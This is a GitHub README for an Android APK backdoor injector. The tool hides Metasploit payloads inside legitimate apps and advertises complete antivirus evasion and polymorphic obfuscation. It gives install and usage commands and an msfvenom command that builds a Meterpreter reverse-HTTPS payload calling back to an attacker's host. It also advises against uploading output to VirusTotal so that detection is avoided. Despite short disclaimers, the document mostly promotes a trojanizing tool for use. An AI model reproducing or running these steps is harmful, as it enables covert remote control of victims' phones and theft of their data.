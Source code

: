 # Metasploit-APK-Backdoor-Injector

## Overview

Advanced Android APK backdoor injection tool for security professionals, providing complete AV evasion for Metasploit payloads injected into legitimate applications. Supports all application architectures, frameworks, and protection mechanisms.

> **IMPORTANT: Please do not upload injected files to VirusTotal.com**  
> Use nodistribute.com or manual scanning on isolated test devices only.

**This tool is for legitimate security testing only. Unauthorized use is illegal.**

## Key Features

- **100% AV Evasion** - 
- **Universal Application Compatibility** - Works with all Android applications regardless of complexity, protection level, or framework
- **Framework-Specific Support** - Automatic detection and specialized handling for:
  - Standard Android apps
  - Unity-based games and applications
  - Flutter applications
  - React Native applications
  - Hybrid applications
- **Native Code Integration** - Seamlessly works with applications using NDK, JNI, and other native components
- **Integrity Check Preservation** - Advanced algorithms that preserve application integrity validation mechanisms
- **ProGuard Compatibility** - Handles heavily obfuscated applications without degradation
- **Multi-Architecture Support** - Compatible with ARM, ARM64, x86, x86_64, and hybrid architectures
- **Advanced Obfuscation Engine** - Military-grade obfuscation using dynamic randomization and polymorphic code techniques
- **Intelligent Injection** - Automatically identifies optimal injection points with ~99% success rate (up from 70%)
- **Comprehensive Recovery System** - Advanced error handling for even the most complex apps

## Quick Start

### Installation

```bash
# Clone the repository or download the script
git clone https://github.com/KrashKrash/Metasploit-APK-Backdoor-Injector

# Make the script executable
chmod +x apk-injector

# Move to system path (optional)
sudo mv apkinjector /usr/local/bin/
```

### First Run Setup

On first execution, the script will:
- Download and install the latest APKTool version
- Generate a debug keystore for signing (stored in ~/.android/)
- Install required dependencies

> **Note:** To customize signatures for each build, remove the debug keystore before running the script: `rm ~/.android/debug.keystore`

### Basic Usage

```bash
# Simple usage with default options
apkinjector payload.apk target.apk

# Advanced usage with custom options
apkinjector -s 3 -f unity -o custom_output.apk payload.apk target.apk
```

### Generating the Payload

Create your payload using msfvenom:

```bash
msfvenom -p android/meterpreter/reverse_https LHOST=<IP> LPORT=<PORT> -o payload.apk
```

## Advanced Options

```
OPTIONS:
    -h, --help                Show help message
    -v, --version             Display version information
    -d, --debug               Enable debug mode with verbose output
    -o, --output FILE         Specify output filename (default: injected_TARGET.apk)
    -f, --framework TYPE      Specify framework type (auto, native, unity, flutter, react)
    -i, --integrity LEVEL     Set integrity preservation level (0-3, default: 2)
    -n, --no-native           Disable native code support
    -c, --clean               Clean all temporary files before and after execution
    -s, --stealth LEVEL       Set stealth/obfuscation level (1-3, default: 2)
    -k, --keystore FILE       Use custom keystore for signing
    -p, --password PASS       Keystore password
```

## Success Rates

- **AV Evasion:** 100% 
- **Automatic Injection:** ~99% success across tested applications
- **Framework Compatibility:** 100% for supported frameworks
- **Integrity Preservation:** ~95% success in preserving application integrity checks

## Troubleshooting

### Common Issues

If you encounter problems:

1. **Enable debug mode** for detailed logging: `apkinjector -d payload.apk target.apk`

2. **Examine temporary files** by adding the debug flag and preventing automatic cleanup:
   ```bash
   apkinjector -d payload.apk target.apk
   # Temporary files will be in the logged location
   ```

3. **Framework detection issues** - Manually specify the framework type:
   ```bash
   apkinjector -f unity payload.apk game.apk
   ```

4. **APKTool errors** - The script handles most APKTool issues automatically, but for persistent problems, try:
   ```bash
   # Update APKTool manually
   rm ~/.apkinjector/tools/apktool/apktool.jar
   # Then run the script again, which will download the latest version
   ```

### Output Files

- **Main output:** `injected_target.apk` (or custom name if specified with `-o`)
- **Logs:** Located in the temporary directory (path shown in debug output)
- **Mapping files:** Stored in `~/.apkinjector/mappings/` for reference

## Security Considerations

The modified application:
- Requires user installation with "Unknown Sources" enabled
- Must be launched at least once to establish connection
- Contains extensive permissions visible to the user
- May trigger security warnings on modern Android versions

## Ethical Usage Guidelines

This tool should ONLY be used:
- For authorized security assessments
- In controlled testing environments
- On systems you own or have permission to test
- In accordance with all applicable laws

## License

This project is licensed under the MIT License - see the LICENSE file for details.

- [![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)
![Version](https://img.shields.io/badge/Version-3.5.0-blue.svg)
![Platform](https://img.shields.io/badge/Platform-Android-green.svg)
![Framework Support](https://img.shields.io/badge/Frameworks-All-purple.svg)
